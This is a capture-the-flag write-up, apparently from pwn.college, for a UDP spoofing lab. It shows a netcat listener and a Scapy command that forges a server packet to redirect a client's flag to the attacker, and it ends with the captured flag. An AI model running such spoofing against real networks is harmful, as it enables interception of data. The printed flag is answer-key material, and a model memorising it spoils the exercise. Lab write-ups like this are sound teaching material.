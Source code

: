 
The challenge sets up a virtual network where a client periodically sends `"ACTION?"` to a server over UDP, and if it ever receives a `FLAG:ip:port` response, it sends the actual flag to that address.
Our goal is to trick the client into sending us the flag by spoofing a UDP packet from the server with our IP and port.

We will have to put the listener in the background, and then send the packet in the same shell. If we split our terminal, the sessions are treated as separate and the MAC address of teh host is different.

```
root@ip-10-0-0-1:/# nc -u -lvp 9999 &
[1] 785
```

```py
>>> (IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=31338) / Raw(load="FLAG:10.0.0.1:9999")).display()
###[ IP ]###
  version   = 4
  ihl       = None
  tos       = 0x0
  len       = None
  id        = 1
  flags     = 
  frag      = 0
  ttl       = 64
  proto     = udp
  chksum    = None
  src       = 10.0.0.3
  dst       = 10.0.0.2
  \options   \
###[ UDP ]###
     sport     = 31337
     dport     = 31338
     len       = None
     chksum    = None
###[ Raw ]###
        load      = b'FLAG:10.0.0.1:9999'
```

```py
>>> send(IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=31338) / Raw(load="FLAG:10.0.0.1:9999"))
.
Sent 1 packets.
>>> nc: getnameinfo: Temporary failure in name resolution
pwn.college{Qa7I7oqR_1wCI546RKLcU_CW77L.QX1QDM2EDL4ITM0EzW}
```

&nbsp;

## UDP Spoofing 3
